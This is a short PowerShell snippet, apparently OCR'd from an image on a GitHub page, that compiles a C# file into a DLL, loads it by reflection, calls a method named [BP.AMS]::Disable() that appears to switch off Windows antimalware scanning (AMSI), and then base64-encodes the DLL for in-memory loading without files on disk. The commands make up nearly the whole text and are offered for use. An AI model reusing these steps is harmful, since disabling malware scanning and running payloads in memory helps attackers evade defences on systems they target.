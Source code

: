Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) #To load it into Powershell we can use its native (.NET) API:
[BP.AMS]::Disable()

#encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to base64 I used this command.
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand

#Loadoad it into memory
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null

